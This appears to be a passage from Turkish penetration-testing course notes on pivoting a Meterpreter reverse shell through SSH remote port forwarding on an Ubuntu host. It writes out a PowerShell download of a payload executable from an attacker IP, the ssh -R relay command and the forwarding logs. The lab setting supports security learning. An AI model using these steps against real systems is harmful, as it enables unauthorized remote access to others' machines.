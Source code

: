 ```powershell-session
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

Payload'umuzu Windows host'a indirdikten sonra, bağlantıları Ubuntu sunucusunun 8080 portundan msfconsole'un 8000 portundaki listener servisine yönlendirmek için SSH remote port forwarding kullanacağız. SSH komutumuzu ayrıntılı hale getirmek ve oturum açma shell'ini sormamasını istemek için -vN argümanını kullanacağız. -R komutu Ubuntu sunucusundan hedefIPadresi:8080 portunu dinlemesini ve 8080 portuna gelen tüm bağlantıları saldırı hostumuzun 0.0.0.0:8000 portundaki msfconsole dinleyicimize yönlendirmesini ister.

#### Using SSH -R
```shell-session
M1R4CKCK@htb[/htb]$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

SSH remote port forward'ı oluşturduktan sonra, Windows hedefinden payload'u çalıştırabiliriz. Payload amaçlandığı gibi çalıştırılırsa ve listener'ımıza geri bağlanmaya çalışırsa, pivot host üzerindeki pivot'tan gelen logları görebiliriz.


### Pivottan Loglarını Görüntüleme
```shell-session
ebug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61355
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=5
debug1: channel 1: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: free: 172.16.5.19, nchannels 2
debug1: channel 1: connected to 0.0.0.0 port 8000
debug1: channel 1: free: 172.16.5.19, nchannels 1
debug1: client_input_channel_open: ctype forwarded-tcpip rchan 2 win 2097152 max 32768
debug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61356
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=4
debug1: channel 0: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: connected to 0.0.0.0 port 8000
```
Her şey düzgün bir şekilde ayarlandıysa, Ubuntu sunucusu üzerinden pivotlanmış bir Meterpreter shell alacağız.


### Meterpreter Oturumu Kuruldu
![Pasted image 20241004133730.png](/img/user/resimler/Pasted%20image%2020241004133730.png)

Meterpreter oturumumuz, gelen bağlantımızın lokal bir hosttan (127.0.0.1) geldiğini listelemelidir, çünkü bağlantıyı Ubuntu sunucusuna giden bir bağlantı oluşturan lokal SSH soketi üzerinden alıyoruz. Netstat komutunu vermek bize gelen bağlantının SSH servisinden olduğunu gösterebilir.

Aşağıdaki grafiksel gösterim bu tekniği anlamak için alternatif bir yol sunmaktadır.

![Pasted image 20241004134143.png](/img/user/resimler/Pasted%20image%2020241004134143.png)
